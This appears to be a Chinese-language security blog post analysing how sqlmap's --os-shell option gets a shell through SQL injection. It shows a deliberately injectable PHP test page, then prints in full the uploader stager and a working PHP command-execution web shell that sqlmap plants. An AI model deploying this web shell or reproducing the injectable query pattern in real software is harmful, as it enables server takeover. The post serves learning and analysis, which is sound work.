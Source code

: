 ```yaml
---
layout: post
title: Sqlmap --os-shell Principle analysis
date: 2018-9-26
categories: blog
tags: [WEB]
description: 文艺的流氓。
---
```


### 1.环境

**刚好学习完了二次注入,就想知道`sqlmap`的`get  shell`是怎么实现的。**

我自己写一个页面。很简单

- config.php

```php
<?php 
 $serve = '127.0.0.1:3306';
 $user = 'root';
 $password = '';
 $db = 'test';
 $mysql = new Mysqli($serve,$user,$password,$db);
 $mysql->set_charset('utf-8');
?>
```

- sql.php

```php
<?php
 include "config.php";
 $id = @$_GET['id'];
 $sql = "select * from demo where id = '{$id}'";
 $row = $mysql->query($sql);
 if($row){
    $rows = $row->fetch_array();
    echo $rows['username']."<br />";
    echo $rows['password']."<br />";
    echo $rows['email']."<br />";
 }
?>
```

### 2.流程

**第一步**

我已经成功的利用注入点进行了`getshell`。

从图中可以看得到。

1. 我是选择是`php`.因为使用的语言就是`php`
2. 选择了一个绝对路径。
3. 发现了上传了两个文件分别是`tmpuigbp.php`和`tmpbesbw.php`

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926093832.png)

**流量分析**

我是通过`wireshark`抓取`sqlmap`的流量来观察的。

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926094504.png)

发现`sqlmap`按路径尝试去访问文件`tmpujqbu.php`，通过 POST 上传后门文件`tmpbzhga.php`

**文件内容**

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926094813.png)

可以看的到的是`tmpuigbp.php`文件内容就是一个文件上传。并且把文件给了`755`权限

```php
<?php 
if (isset($_REQUEST["upload"])) {
    $dir = $_REQUEST["uploadDir"];
    if (phpversion() < '4.1.0') {
        $file = $HTTP_POST_FILES["file"]["name"];
        @move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"], $dir . "/" . $file) or die;
    } else {
        $file = $_FILES["file"]["name"];
        @move_uploaded_file($_FILES["file"]["tmp_name"], $dir . "/" . $file) or die;
    }
    @chmod($dir . "/" . $file, 0755);
    echo "File uploaded";
} else {
    echo "<form action=" . $_SERVER["PHP_SELF"] . " method=POST enctype=multipart/form-data><input type=hidden name=MAX_FILE_SIZE value=1000000000><b>sqlmap file uploader</b><br><input name=file type=file><br>to directory: <input type=text name=uploadDir value=D:\\Software\\xampp\\htdocs\\> <input type=submit name=upload value=upload></form>";
}
?>
```

而`tmpbesbw.php`文件就是一个木马文件了。一个用于执行系统命令的后门脚本文件

```php
<?php
$c = $_REQUEST["cmd"];
@set_time_limit(0);
@ignore_user_abort(1);
@ini_set('max_execution_time', 0);
$z = @ini_get('disable_functions');
if (!empty($z)) {
    $z = preg_replace('/[, ]+/', ',', $z);
    $z = explode(',', $z);
    $z = array_map('trim', $z);
} else {
    $z = array();
}
$c = $c . " 2>&1\n";
function f($n)
{
    global $z;
    return is_callable($n) and !in_array($n, $z);
}
if (f('system')) {
    ob_start();
    system($c);
    $w = ob_get_contents();
    ob_end_clean();
} elseif (f('proc_open')) {
    $y = proc_open($c, array(array(pipe, r), array(pipe, w), array(pipe, w)), $t);
    $w = NULL;
    while (!feof($t[1])) {
        $w .= fread($t[1], 512);
    }
    @proc_close($y);
} elseif (f('shell_exec')) {
    $w = shell_exec($c);
} elseif (f('passthru')) {
    ob_start();
    passthru($c);
    $w = ob_get_contents();
    ob_end_clean();
} elseif (f('popen')) {
    $x = popen($c, r);
    $w = NULL;
    if (is_resource($x)) {
        while (!feof($x)) {
            $w .= fread($x, 512);
        }
    }
    @pclose($x);
} elseif (f('exec')) {
    $w = array();
    exec($c, $w);
    $w = join(chr(10), $w) . chr(10);
} else {
    $w = 0;
}
print "<pre>" . $w . "</pre>";
```

访问这个文件。用参数`cmd`执行命令

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926095227.png)

**原理简述**

1. 就是一个简单的上传`shell`
2. 分两个文件上传。其实可以一个文件上传
3. 使用`os-shell`的条件就是需要`FILE`权限.可写的一个环境。`PHP GPC off`
4. `os-shell`退出之后。会自动清楚这两个文件